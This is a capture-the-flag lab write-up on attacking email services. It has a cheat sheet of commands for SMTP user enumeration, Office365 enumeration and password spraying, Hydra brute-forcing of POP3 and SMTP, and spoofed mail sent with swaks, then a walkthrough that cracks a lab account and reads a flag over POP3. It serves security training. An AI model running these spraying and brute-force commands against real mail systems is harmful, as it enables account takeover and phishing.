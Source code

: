 # Attacking Email Services

| Command                                                                                     | Description                                                                      |
| ------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------- |
| ```host -t MX microsoft.com```                                                                  | DNS lookup for mail servers for the specified domain.                            |
| ```dig mx example.com \| grep "MX" \| grep -v ";"```                                     | DNS lookup for mail servers for the specified domain.                            |
| ```host -t A mail1.example.com.```                                                        | DNS lookup of the IPv4 address for the specified subdomain.                      |
| ```telnet $TARGET_IP 25```                                                                    | Connect to the SMTP server.                                                      |
| ```smtp-user-enum -M RCPT -U userlist.txt -D example.com -t $TARGET_IP```               | SMTP user enumeration using the RCPT command against the specified host.         |
| ```python3 o365spray.py --validate --domain msplaintext.xyz```                                  | Verify the usage of Office365 for the specified domain.                          |
| ```python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz```                         | Enumerate existing users using Office365 on the specified domain.                |
| ```python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz``` | Password spraying against a list of users that use Office365 for the specified domain. |
| ```hydra -L users.txt -p 'Company01!' -f $TARGET_IP pop3```                                   | Brute-forcing the POP3 service.                                                  |
| ```swaks --from notifications@example.com --to employees@inlanefreight.com --header 'Subject: Notification' --body 'Message' --server $TARGET_IP``` | Send email using SWAKS (Swiss Army Knife for SMTP).                               |


## Questions:
1. What is the available username for the domain `inlanefreight.htb` in the SMTP server?
2. Access the email account using the user credentials that you discovered and submit the flag in the email as your answer.

## Steps:

### 1. Edit the Hosts File
First, add the target IP and domain to the `/etc/hosts` file for easier access:
```
sudo nano /etc/hosts
```

Add the following line with target IP:

`10.129.215.105 inlanefreight.htb`

### 2. Download Users and Passwords Lists from resources
### 3. Enumerate SMTP Users

Use smtp-user-enum to find valid users in the SMTP server:
```
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t $TARGET_IP
```
This reveals the user:
` m*****@inlanefreight.htb `
### 4. Brute-force the Password
Use hydra to brute-force the password for the discovered user:

```
hydra -l m*****@inlanefreight.htb -P pswd.txt -f 10.129.215.105 smtp
```

The password is found:
`po*****r`

### 5. Access the Email Account
Use telnet to access the POP3 service and read emails:
```
telnet -l m*****@inlanefreight.htb $TARGET_IP 110
```
Log in with the credentials:

```
user m*****@inlanefreight.htb
+OK Send your password
pass po*****r
+OK Mailbox locked and ready
```
### 6. List and Read the Email
List the emails in the mailbox:
```
list
+OK 1 messages (601 octets)
1 601
Read the email:
retr 1
Output:
Return-Path: m*****@inlanefreight.htb
Received: from [10.10.14.33] (Unknown [10.10.14.33])
by WINSRV02 with ESMTPA
; Wed, 20 Apr 2022 14:49:32 -0500
Message-ID: <85cb72668d8f5f8436d36f085e0167ee78cf0638.camel@inlanefreight.htb>
Subject: Password change
From: marlin <m*****@inlanefreight.htb>
To: administrator@inlanefreight.htb
Cc: m*****@inlanefreight.htb
Date: Wed, 20 Apr 2022 15:49:11 -0400
Content-Type: text/plain; charset="UTF-8"
User-Agent: Evolution 3.38.3-1
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit

Hi admin,

How can I change my password to something more secure?

flag: HTB{w**k_p******d}
```


